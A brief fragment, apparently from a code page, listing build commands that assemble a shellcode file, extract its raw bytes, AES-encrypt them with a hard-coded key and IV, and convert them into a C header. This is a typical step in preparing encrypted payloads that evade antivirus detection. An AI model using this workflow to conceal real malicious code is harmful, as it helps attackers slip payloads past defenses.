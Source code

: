 as --64 shellcode.s -o shellcode.o
ld -N -o shellcode.elf shellcode.o
objcopy -O binary shellcode.elf shellcode.raw
openssl enc -aes-128-cbc -nosalt -e -in shellcode.raw -out shellcode.enc -K '2b7e151628aed2a6abf7158809cf4f3c' -iv '000102030405060708090a0b0c0d0e0f'
xxd -i shellcode.enc shellcode_hex.h
